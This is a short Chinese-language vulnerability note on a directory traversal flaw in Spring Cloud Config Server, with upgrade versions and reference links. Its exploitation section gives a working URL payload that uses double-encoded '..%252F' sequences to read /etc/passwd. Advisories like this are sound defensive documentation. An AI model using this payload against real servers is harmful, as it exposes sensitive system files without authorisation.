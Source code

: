 ### 一 漏洞描述
在分布式系统中，由于服务数量巨多，为了方便服务配置文件统一管理，实时更新，所以需要分布式配置中心组件。  
在Spring Cloud中，有分布式配置中心组件spring cloud config ，它支持配置服务放在配置服务的内存中（即本地），也支持放在远程Git仓库中。  
在spring cloud config 组件中，分两个角色，一是config server，二是config client。

由于spring-cloud-config-server模块未对传入路径进行安全限制，攻击者可以利用多个..%252f进行目录遍历，查看服务器其他路径的敏感文件。

### 二 漏洞利用
```
{url}/a/b/master/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
```

### 三 漏洞修复
2.1.x用户应升级到2.1.2  
2.0.x用户应升级到2.0.4  
1.4.x用户应升级到1.4.6  
较旧的版本应升级到受支持的分支  

> 参考链接
> https://www.cnblogs.com/ph4nt0mer/p/13157310.html
> https://blog.csdn.net/qq_27870421/article/details/114361578
